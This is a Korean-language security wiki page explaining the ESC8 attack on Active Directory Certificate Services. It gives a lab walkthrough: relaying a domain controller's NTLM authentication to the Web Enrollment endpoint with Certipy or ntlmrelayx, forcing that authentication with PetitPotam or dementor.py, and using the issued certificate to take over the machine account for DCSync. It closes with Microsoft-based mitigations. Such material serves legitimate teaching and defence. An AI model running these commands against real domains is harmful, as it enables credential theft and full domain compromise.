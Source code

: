 # ESC8

### 개념&#x20;

ADCS 에는 Web Enrollment 라는 웹 서비스가 존재한다. 이 웹 서비스는 유저, 스크립트, 프로그램 등이 ADCS 서비스와 편리하게 통신하기 위해 웹 서버와 HTTP 엔드포인트 등을 제공한다. 액티브 디렉토리 안의 서비스 답게 이 웹 서버는 기본적으로 NTLM 인증을 통해 사용자 인증이 가능하다 - 라는 말은 곧 NTLM Relay 공격에 취약 하다는 말이 된다.&#x20;

ESC8 은 NTLM Relay 공격을 통해 피해자 유저/머신의 NTLM 인증 트래픽을 ADCS HTTP 엔드 포인트로 보낸 뒤, 피해자 유저/머신으로 인증서를 발급받아 사용자 인증 및 계정을 탈취하는 공격이다.&#x20;

### 전제 조건&#x20;

1. ADCS 서버에 Web Enrollment 가 설치되어 있다&#x20;
2. NTLM Relay 를 시작할 수 있는 피해자 유저/머신과 취약점이 존재한다 (강제 인증, LLMNR/NBT-NS 포이즈닝, MITM6, 등)&#x20;
3. Web Enrollment 웹 서버가 NTLM 인증을 허용한다 - 특별한 설정을 하지 않는 이상 기본적으로 허용한다.&#x20;



### 실습&#x20;

해당 실습에서는 강제 인증에 취약한 도메인 컨트롤러로부터 인증 트래픽을 받아 이를 CA 서버의 HTTP 엔드포인트에 릴레이하는 ESC8 공격을 실행한다. 이로서 공격자는 도메인 컨트롤러 머신 계정을 장악한. 도메인 컨트롤러 머신 계정은 DCSync 권한을 갖고 있기 때문에 도메인을 장악할 수 있게 된다.&#x20;

> 도메인 컨트롤러 -> 강제 인증 -> 공격자 -> 릴레이 -> ADCS HTTP 엔드포인트 == 도메인 컨트롤러의 인증서 획득. 인증서를 이용해 도메인 컨트롤러로 인증 후 DCSync&#x20;

#### 정보 수집&#x20;

1. 먼저 CA와 CA의 Web Enrollment 가 존재하는지 Certipy 로 알아본다. `Web Enrollment: Enabled` 라면 웹서버가 활성화 되어 있는 것이다.&#x20;

<figure><img src="../../../.gitbook/assets/image (3) (3).png" alt=""><figcaption></figcaption></figure>

2\. 정확한 확인을 위해 GUI에서는 HTTP 엔드포인트를 브라우저로 방문하거나 curl 등을 이용한다. `401 Unauthorized` 에러 메시지가 나오면 제대로 HTTP 엔드포인트가 실행 중이라는 것이다.&#x20;

```
$ curl -k http://<CA-IP>/certsrv/certfnsh.asp

$ curl -k http://192.168.40.150/certsrv/certfnsh.asp                                              
[ ... ] 
<body>
<div id="header"><h1>Server Error</h1></div>
<div id="content">
 <div class="content-container"><fieldset>
  <h2>401 - Unauthorized: Access is denied due to invalid credentials.</h2>
  <h3>You do not have permission to view this directory or page using the credentials that you supplied.</h3>
```

3\. CA 서버의 HTTP 엔드포인트로 릴레이 세팅 해놓는다. Certipy 나 NTLMRelayx 를 이용한다.&#x20;

<pre><code># Certipy 
<strong>certipy relay -ca &#x3C;ca-ip> 
</strong>
# ntlmrelayx 
python3 ntlmrelayx.py -t http://&#x3C;CA-IP or FDQN>/certsrv/certfnsh.asp -smb2support --adcs --template &#x3C;template>
</code></pre>

4\. 강제 인증, LLMNR/NBT-NS, MITM6 등을 이용해 도메인 컨트롤러를 공격해 NTLM Relay 공격을 실행한다.&#x20;

```
# Petitpotam - 무인증 
python3 Petitpotam.py <attacker-ip> <target-ip> 

# Petitpotam - 인증 
python3 Petitpotam.py -u <user> -p <pass> <attacker-ip> <target-ip> 

# Print Spooler (dementor.py) (https://github.com/NotMedic/NetNTLMtoSilverTicket/blob/master/dementor.py) 
python3 dementor.py -u <user> -p <pass> -d <domain> <attacker-ip> <target-ip>

```

5\. Certipy 결과&#x20;

```
certipy relay -ca dc01.choi.local -template DomainController
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Targeting http://dc01.choi.local/certsrv/certfnsh.asp
[*] Listening on 0.0.0.0:445
[*] Requesting certificate for 'PCI\\DC1$' based on the template 'DomainController'
[*] Got certificate with DNS Host Name 'dc1.pci.choi.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'dc1.pfx'
[*] Exiting...
```

(5-1. NTLMRelayx 결과)&#x20;

```
[*] Authenticating against http://192.168.40.150 as PCI/DC1$ SUCCEED                                          
[*] SMBD-Thread-7 (process_request_thread): Connection from 192.168.40.160 controlled, but there are no more targets left!
[*] Generating CSR...                                  
[*] CSR generated!                                     
[*] Getting certificate...                             
[*] GOT CERTIFICATE! ID 22                             
[*] Base64 certificate of user DC1$:                   
MIIRbQIBAzCCEScGCSqGSIb3DQEHAaCCERgEghEUMIIREDCCB0cGCSqG [ ..... ] 
```

6\. 인증서를 이용해 도메인 컨트롤러의 머신 계정을 획득한다.&#x20;

```
# Certipy
certipy auth -dc-ip <dc-IP> -pfx <filename>

# NTLMRelayx 
Base64 Certificate 을 저장한다. 
$ base64 -d <base64-pfx> > real.pfx 
$ certipy auth -dc-ip <dc-IP> -pfx real.pfx 
```



### 대응 방안&#x20;

> 다음의 대응 방안은 마이크로소프트사의 공식 문서를 기반으로 쓰여졌다. 더 자세한 사항은 레퍼런스 섹션의 MSDN을 참고한다.&#x20;

1. ADCS HTTP 엔드포인트에 Extended Protection Authentication (EPA) 을 `Required` 로 설정한다. \
   Server Manager > IIS Manager > DC/CAXX > Sites > Default Web Site > CertSrv > Authentication 더블클릭 > Windows Authentication 오른쪽 클릭 > Advanced Settings > Extended Protection: Required&#x20;

<figure><img src="../../../.gitbook/assets/image (5) (3) (1).png" alt=""><figcaption></figcaption></figure>

1-1. 그 이 SSL을 활성화 한다.&#x20;

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

2\. 극단적으로 CA 서버에 NTLM 인증을 비활성화 한다. 프로덕션 서버의 경우 하위 호환성에 문제가 갈 수 있기 때문에 충분한 테스트를 거친 뒤 NTLM 인증을 비활성화 한다.  \
&#x20;

### 레퍼런스&#x20;

{% embed url="https://support.microsoft.com/en-us/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs-3612b773-4043-4aa9-b23d-b87910cd3429" %}

